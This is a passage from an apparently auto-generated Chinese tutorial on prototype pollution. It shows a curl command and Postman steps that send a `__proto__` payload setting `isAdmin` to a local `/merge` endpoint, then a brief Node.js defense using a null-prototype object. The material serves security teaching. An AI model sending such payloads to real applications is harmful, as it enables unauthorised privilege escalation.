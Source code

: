 ## 5. 实际命令、代码或工具使用说明

### 5.1 使用`curl`进行攻击

```bash
curl -X POST http://localhost:3000/merge -H "Content-Type: application/json" -d '{"__proto__":{"isAdmin":true}}'
```

### 5.2 使用Postman进行攻击

1. 打开Postman，创建一个新的POST请求。
2. 设置URL为`http://localhost:3000/merge`。
3. 在Body中选择`raw`，并选择`JSON`格式。
4. 输入以下JSON数据并发送请求。

   ```json
   {
       "__proto__": {
           "isAdmin": true
       }
   }
   ```

### 5.3 使用`Node.js`进行防御

```javascript
const express = require('express');
const bodyParser = require('body-parser');
const app = express();

app.use(bodyParser.json());

app.post('/merge', (req, res) => {
    const obj = Object.create(null);
    Object.assign(obj, req.body);
    res.json(obj);
});

app.listen(3000, () => {
    console.log('Server is running on port 3000');
});
```

## 结论

前端原型链污染是一种严重的安全漏洞，攻击者可以通过操纵对象的原型链，影响应用程序的行为。通过深入理解原型链的机制，掌握常见的攻击手法和高级利用技巧，并采取有效的防御措施，可以有效地防止原型链污染攻击。

---

*文档生成时间: 2025-03-11 16:16:25*
